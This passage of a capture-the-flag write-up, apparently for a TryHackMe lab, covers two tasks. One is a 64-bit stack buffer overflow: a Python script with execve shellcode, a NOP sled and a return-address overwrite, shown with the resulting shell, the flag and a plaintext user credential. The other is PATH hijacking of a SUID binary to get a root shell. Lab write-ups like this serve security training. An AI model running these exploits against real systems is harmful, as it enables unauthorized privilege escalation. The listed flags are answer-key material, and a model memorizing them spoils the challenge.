 ```py
from struct import pack
#buf="\xcc"*8
buf="\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
payload="\x90"*400
payload += buf
payload += "A" * (208 -len(buf))
payload += "B" *8
payload += pack("<Q", 0x7fffffffe300)

print payload
```

```
des@THM_exploit:~$ python exploit.py >testdes@THM_exploit:~$ (cat test;cat) | ./bof Enter some string:
id
uid=1000(kel) gid=1001(des) groups=1001(des)
pwd
/home/des
cd /home/kel
ls -la
total 52
drwx------ 4 kel  kel  4096 Jan 17  2020 .
drwxr-xr-x 6 root root 4096 Jan 17  2020 ..
-rw------- 1 root root   16 Jan 12  2020 .bash_history
-rw-r--r-- 1 kel  kel   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kel  kel  3771 Apr  4  2018 .bashrc
drwx------ 2 kel  kel  4096 Jan 12  2020 .cache
drwx------ 3 kel  kel  4096 Jan 12  2020 .gnupg
-rw-r--r-- 1 kel  kel   807 Apr  4  2018 .profile
-rwsr-xr-x 1 root root 8392 Jan 17  2020 exe
-rw-r--r-- 1 root root   76 Jan 17  2020 exe.c
-rw------- 1 kel  kel   118 Jan 17  2020 flag.txt
cat flag.txt
You flag is THM{buffer_overflow_in_64_bit}

The user credential
username: kel
password: kelvin_74656d7065726174757265
```

1. What is the contents of /home/kel/flag.txt?

`THM{buffer_overflow_in_64_bit}`

## Task 4 PATH Manipulation :: Binary 3

Get the root flag from the root directory. This will require you to understand how the PATH variable works.

```
cd /tmp
ls
systemd-private-0f779aad101b42e0b596cddf443aa30f-systemd-resolved.service-qGxTHc  systemd-private-0f779aad101b42e0b596cddf443aa30f-systemd-timesyncd.service-Aj3keJ
echo "/bin/bash" > ps
chmod +x ps
export PATH=/tmp:$PATH
cd /home/kel
./exe
id
uid=0(root) gid=0(root) groups=0(root),1001(des)
cat /root/root.txt
The flag: THM{SUID_binary_and_PATH_exploit}.
```